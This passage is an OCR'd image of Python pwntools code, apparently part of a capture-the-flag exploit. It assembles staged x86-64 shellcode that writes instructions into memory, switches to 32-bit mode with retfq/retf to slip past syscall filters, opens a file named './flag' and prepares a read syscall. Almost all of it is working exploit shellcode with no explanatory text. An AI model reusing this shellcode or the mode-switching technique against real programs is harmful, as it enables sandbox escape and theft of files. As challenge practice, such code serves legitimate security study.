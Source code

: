 ```python
push 0x23
push rdx; rdx=0x40404005, 即下一条指令地址
retfq
'''
shellcode_write_to_mem_retfq = asm('''
mov dl, 0xc0
xor dl, 0x0b
mov byte ptr [rax+0x04], dl
mov edx, eax
add edx, 0x05
mov dword ptr [rax], 0x4852236a
''', arch='amd64', os='linux')


'''
push 0x00006761
push 0x6c662f2e
xor ecx, ecx
xor eax, eax
xor al, 0x05
mov ebx, esp
int 0x80
pop ebx
pop ebx
'''
shellcode_write_to_mem_open_flag_86 = asm('''
mov byte ptr [rdx], 0x68
mov dword ptr [rdx+0x01], 0x6761
mov byte ptr [rdx+0x05], 0x68
mov dword ptr [rdx+0x6], 0x6c662f2e
mov dword ptr [rdx+0x0a], 0xc031c931
mov dword ptr [rdx+0x0e], 0xe3890534
mov dword ptr [rdx+0x12], 0x5b5b80cd
''', arch='amd64', os='linux')


'''
push 0x33
push 0x40404023; 为下一条指令地址
retf
'''
shellcode_write_to_mem_retf = asm('''
mov dword ptr [rdx+0x16], 0x2368336a
mov ebx, 0xc0404040
xor ebx, 0x0b000000
mov dword ptr [rdx+0x1a], ebx
''', arch='amd64', os='linux')

'''
mov rdi, rax;
mov esi, 0x40404200;
xor rdx, rdx
add dl, 0x40
xor rax, rax;
syscall;
'''
shellcode_write_to_mem_read = asm('''
mov dword ptr [rdx+0x1e], 0xbec78948
mov dword ptr [rdx+0x22], 0x40404200
mov dword ptr [rdx+0x26], 0x80d23148
mov dword ptr [rdx+0x2a], 0x314840c2
mov dword ptr [rdx+0x2e], 0x050fc0
''', arch='amd64', os='linux')
```